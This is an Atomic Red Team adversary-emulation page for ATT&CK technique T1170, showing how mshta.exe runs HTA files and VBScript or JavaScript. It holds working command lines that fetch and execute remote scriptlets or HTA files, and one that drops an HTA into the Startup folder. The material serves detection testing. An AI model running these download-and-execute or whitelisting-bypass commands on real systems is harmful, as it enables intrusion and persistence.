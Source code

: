 # T1170 - Mshta

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)

<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted
Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise
and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye
Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:
https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since
mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (
Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)

<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject

Test execution of a remote script using mshta.exe
Upon execution calc.exe will be launched

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/mshta.sct|

#### Attack Commands: Run with `command_prompt`!

```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```

<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe

Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file_path | Create a local VBScript file | path | C:&#92;Temp&#92;mshta_notepad.vbs|

#### Attack Commands: Run with `command_prompt`!

```cmd
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""#{local_file_path}"")(window.close)")
```

<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command

Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute
malicious code on victim systems.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!

```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```

<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)

Execute an arbitrary remote HTA.
Upon execution calc.exe will be launched

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/T1170.hta|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1170.hta|

#### Attack Commands: Run with `powershell`!

```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
```

#### Cleanup Commands:

```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```

<br/>
